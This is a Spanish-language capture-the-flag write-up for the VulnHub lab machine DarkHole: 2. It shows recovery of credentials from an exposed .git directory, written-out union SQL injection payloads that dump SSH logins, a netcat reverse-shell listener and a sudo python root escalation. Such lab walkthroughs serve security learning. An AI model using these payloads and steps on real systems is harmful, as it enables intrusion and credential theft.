 # VulnHub - DarkHole: 2 Writeup

## Primer paso: Excaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```

![Consola](img/1.png)

En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255
```

![Consola](img/2.png)

- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.130: Es la única máquina que queda, además tiene abiertos los puertos 22 y 80 (ssh y una página web)

Realizamos u n escaneo más profundo con:

```bash
nmap -A -v -n 192.168.226.130
```

![Consola](img/3.png)

Y obtenemos que existe un directorio .git accesible a través del puerto 80

## Segundo paso: Encontrar la vulnerabilidad web

Accedemos a su página web y vemos que en este caso no tiene disponible una pestaña para registrarnos:

![Consola](img/4.png)

Sin ambargo, este panel no es vulnerable a SQl injection.

Esta página tiene un directorio .git. Nos lo descargamos con wget para ver los cambios y su código.

```bash
wget -r http://192.168.226.130/.git/
```

Para ver los cambios usaremos:

```bash
git log --oneline
```

![Consola](img/5.png)

Vemos que en el commit anterior (a4d900a), en login.php estaban las credenciales por defecto. Vamos a ver los cambios de ese commit:

```bash
git show a4d9
```

![Consola](img/6.png)

La línea importante es la siguiente:

```php
if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
```

Esta línea se añadió en este commit, pero se eliminó en el siguiente, probamos sus credenciales para acceder. Nos llevará a un panel de control donde podremos ver el usuario:

![Panel de control](img/7.png)

De nuevo, se envía por parámetro el id (?id=1). En este caso, al cambiar el id a 2 se nos mostrará la plantilla que carga los datos. Esto es importante.

## Tercer paso: Explotar SQL Injection
Interceptamos la carga del usuario 1 y la enviamos al repetidor:

![Repeater de BurpSuite](img/8.png)

Al modificar los campos del submit no funcionará, pero se puede modificar la petición GEt para introducir SQL tras el id.
Gracias a ello, ahora sabemos que la tabla que está consultando la base de datos tiene 6 columnas:

![Repeater de BurpSuite](img/9.png)

La columna 1 es el id de la fila, pero la columna 4 no la usa la plantilla. Aun así vamos a hacer un mapa de la base de datos cambiando un número por una función:
Es muy importante revisar varias veces los datos y codificarlos a URL una sola vez.

- database() Nos dará el nombre de la base de datos. darkhole_2
- union+select+1,group_concat(schema_name),3,4,5,6+from+information_schema.schemata--+- Muestra todas las bases de datos. mysql,information_schema,performance_schema,sys,darkhole_2
En este caso sólo nos interesa la base de datos darkhole_2
- '+union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+- Muestra las tablas de la base de datos darkhole_2. ssh,user
Los datos de la tabla ssh pueden ser interesantes.
- '+union+select+1,group_concat(column_name),3,4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- para ver el nombre de las columas. id pass user
La columna id no nos interesa, tenemos que extraer los datos de user y pass.
- '+union+select+1,group_concat('usuario:+',user,'pass:+',pass),3,4,5,6+from+ssh--+- Extrae el usuario y la contraseña del id 1 de la tabla ssh.

![Repeater de BurpSuite](img/10.png)

Hay que tener especial cuidado con las comillas, en el último caso el nombre de la tabla no lleva comillas, pero en el resto sí. Esto depende si va detrás de un from o de un = (%3d encodeado a URL).

Ya tenemos entonces el usuario y la contraseña para conectarnos por ssh: jehad y fool.

## Cuarto paso: Escalar privilegios con ssh
Nos conectamos por ssh a través del terminal con el siguiente comando:

```bash
ssh jehad@192.168.226.130
```

Al haber enterado con un usuario distinto a www-data, podemos ver su historial de comandos:

```bash
cat .bash_history | less
```

![Histórico de comandos](img/11.png)

Al parecer, hay levantado en el puerto 9999 un servidor web levantado. Este puerto no fue detectado con netcat porque no es accesible desde el exterior.

Podemos hacer un port forwarding desde nuestra consola con ssh:

```bash
ssh jehad@192.168.226.130 -L 9999:localhost:9999
```
Ahora, accediendo a http://127.0.0.1:9999/ veremos que acepta el parámetro cmd para ejecutar comandos.

![Página web](img/12.png)

El usuario que corre el servicio es losy, podría ser interesante acceder a este. Para ello creamos una web shell.

Abrimos otra consola y escuchamos con netcat:

```bash
nc -lvnp 8888
```

Y entramos en la página [https://www.revshells.com/](RevShells) para generar la consola.

En este caso, funcionó la siguiente configuración:

![Reverse shell](img/13.png)

En la carpeta /home/losy encontramos la primera flag:


![Reverse shell](img/14.png)

De nuevo, viendo el histórico de comandos, encontramos una contraseña:

```bash
cat .bash_history | less
```

![Password](img/15.png)

Ahora que tenemos la contraseña de losy, vamos a consultar qué podemos ejecutar como root:

```bash
sudo -l
```
![Consola](img/16.png)

Podemos ejecutar python. Con él podemos darnos acceso a la consola de root. Creamos un archivo con el siguiente contenido o lo ponemos en el interprete de python:

```python
import pty;
pty.spawn("/bin/bash")
```

![Consola](img/17.png)

Con esto podemos acceder a la flag:

![Consola](img/18.png)
